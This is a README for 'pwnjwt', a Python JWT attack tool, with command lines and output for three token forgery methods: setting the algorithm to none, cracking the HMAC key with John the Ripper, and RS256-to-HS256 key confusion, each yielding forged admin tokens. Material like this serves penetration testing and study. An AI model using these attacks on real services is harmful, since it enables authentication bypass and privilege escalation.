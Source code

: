 # pwnjwt
JWT pwn Python module

This small module allows you to create JWToken instances. This object will store informations about the token such as if it's signed and with witch algorithm.
But if you have JohnTheRipper installed on your path and (optionally) a wordlist you could try to break the secret key of the token. Then you'll be able to forge a new valid token, signed with the cracked key.

You can use it by 2 ways:
 - Standalone : `./pwnjwt.py -b -w /usr/share/wordlists/rockyou.txt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE`
 - As a module in Python:
 ```python
 from pwnjwt import JWToken

 token = JWToken('eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE')

 # OR if you know the key
 token = JWToken('eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE', key='Sn1f')

 token.encoded == 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE'

 token.header == {'typ':'JWT', 'alg':'HS256'}
 token.signed == True
 token.algo   == 'HS256'
 token.key    == '' # OR 'Sn1f'
 token.payload == {'role': 'guest'}

 # Will bruteforce and update the token.key
 token.bruteforce(wordlist='../rockyou.txt')

 # If you got the key (token.key):
 new_token = token.forge({'role':'admin'})
 ```

# Standalone Examples

 The 3 main ways to hack JWT are:
  1. Remove signature and set algorithm to None
  2. Bruteforce the key (as it can be done offline)
  3. If encoded in RS256 (asymetric Private/Public keys) -> switch to HS256 with
    public key as key.

#### Case 1 - Unsign

```bash
./pwnjwt.py -f '{"username":"admin"}' -a None \
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.\
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.\
cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```

Output:
```
Token     : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Header    : {'alg': 'HS256', 'typ': 'JWT'} (eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9)
Payload   : {'sub': '1234567890', 'name': 'John Doe', 'admin': True} (eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9)
Algorithm : HS256
Key       :


[+] New Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
```

#### Case 2 - Crack the key

```bash
./pwnjwt.py -b -w /usr/share/wordlists/rockyou.txt \
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.\
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.\
cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```

Output :
```
[*] Starting Bruteforce with John using /usr/share/wordlists/rockyou.txt.
[+] Key found: Sn1f

Token     : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Header    : {'alg': 'HS256', 'typ': 'JWT'} (eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9)
Payload   : {'sub': '1234567890', 'name': 'John Doe', 'admin': True} (eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9)
Algorithm : HS256
Key       : Sn1f
```

Or if key isn't found :
```
[*] Starting Bruteforce with John using /usr/share/wordlists/rockyou.txt.
[-] Key not found.

Token     : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Header    : {'alg': 'HS256', 'typ': 'JWT'} (eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9)
Payload   : {'sub': '1234567890', 'name': 'John Doe', 'admin': True} (eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9)
Algorithm : HS256
Key       :
```

#### Case 3 - Switching RSA256 - HMAC-SHA256

```bash
./pwnjwt.py -f '{"username":"administrator_root_superGOD"}' -a HS256 \
-k public.pem \
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.\
eyJ1c2VybmFtZSI6IkdvZE1hc3RlciJ9.\
QxrGZtmKXEzoLLdnUm1AZDyNZttM4GFeJcC3E66uQWF4vp2hAbHc2j1uzesS7Mha9i2EEtb\
8PnPw6UHSiIp965kuHhKM6O3m-2S36lKiTE-qGGW66Run3g4y1BuhUGZuxsnn2B3YlznHcF\
P1WR3DbybQDf7N7OmtLLZMWsRD0A-fzj_RiPjv_EzFVtCBPJMApvF7JxXosd4nlpVa8pxYR\
hPU0fjLGGYB2zxokarZLWCpcdGde_5Rs76gnerEvcptXp5zTxWF0hF6JNqrAng7JdtS_uo5\
CYjQ0DSHXATdqNd-mZdGHeYUwQe1JgTJ7oLal4GNhspwaQCIa5R9KFx8rw
```

Output:
```
Token     : eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6IkdvZE1hc3RlciJ9.QxrGZtmKXEzoLLdnUm1AZDyNZttM4GFeJcC3E66uQWF4vp2hAbHc2j1uzesS7Mha9i2EEtb8PnPw6UHSiIp965kuHhKM6O3m-2S36lKiTE-qGGW66Run3g4y1BuhUGZuxsnn2B3YlznHcFP1WR3DbybQDf7N7OmtLLZMWsRD0A-fzj_RiPjv_EzFVtCBPJMApvF7JxXosd4nlpVa8pxYRhPU0fjLGGYB2zxokarZLWCpcdGde_5Rs76gnerEvcptXp5zTxWF0hF6JNqrAng7JdtS_uo5CYjQ0DSHXATdqNd-mZdGHeYUwQe1JgTJ7oLal4GNhspwaQCIa5R9KFx8rw
Header    : {'typ': 'JWT', 'alg': 'RS256'} (eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9)
Payload   : {'username': 'GodMaster'} (eyJ1c2VybmFtZSI6IkdvZE1hc3RlciJ9)
Algorithm : RS256
Key       : -----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3KthdfLESvFKn9LqBfvT
RlakP02YGC7QJ4ywfFiOcWjrXvKKjUkPd3J+A/7/MjgbgGZaroJgDZn5WsDg40dx
a3DiVUQU7VGDBh1eKbslfabopCHtQWZ6zLyR38OMqlZjanzv2eEJCMmMxTzykTXm
GAZNIdHC8FuuXe6cdVGyfjRNqAfOUUzeFo7GCTWORXMf1/l1ouzJBO5SVj1YluMZ
Rwys1ysHZZDn/NAYY/vaubSq7jYEYbwRdfD3tJpnISHHUKH6YCbYjDApisaSiFV/
Q/JbE4OJS5NErZ5z6froyBbi+F1s85hfwB5UJPDvKlVVJpO30WPAl3pl/ddeGjtl
eQIDAQAB
-----END PUBLIC KEY-----



[+] New Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9.ccQYH4Ch9PSeTwHmRJnRzgA9RUki20iMNOhNvLEOajk
```

And to check the new token:

```bash
./pwnjwt.py -k public.pem eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9.ccQYH4Ch9PSeTwHmRJnRzgA9RUki20iMNOhNvLEOajk
```
```
Token     : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9.ccQYH4Ch9PSeTwHmRJnRzgA9RUki20iMNOhNvLEOajk
Header    : {'typ': 'JWT', 'alg': 'HS256'} (eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9)
Payload   : {'username': 'administrator_root_superGOD'} (eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9)
Algorithm : HS256
Key       : -----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3KthdfLESvFKn9LqBfvT
RlakP02YGC7QJ4ywfFiOcWjrXvKKjUkPd3J+A/7/MjgbgGZaroJgDZn5WsDg40dx
a3DiVUQU7VGDBh1eKbslfabopCHtQWZ6zLyR38OMqlZjanzv2eEJCMmMxTzykTXm
GAZNIdHC8FuuXe6cdVGyfjRNqAfOUUzeFo7GCTWORXMf1/l1ouzJBO5SVj1YluMZ
Rwys1ysHZZDn/NAYY/vaubSq7jYEYbwRdfD3tJpnISHHUKH6YCbYjDApisaSiFV/
Q/JbE4OJS5NErZ5z6froyBbi+F1s85hfwB5UJPDvKlVVJpO30WPAl3pl/ddeGjtl
eQIDAQAB
-----END PUBLIC KEY-----


```
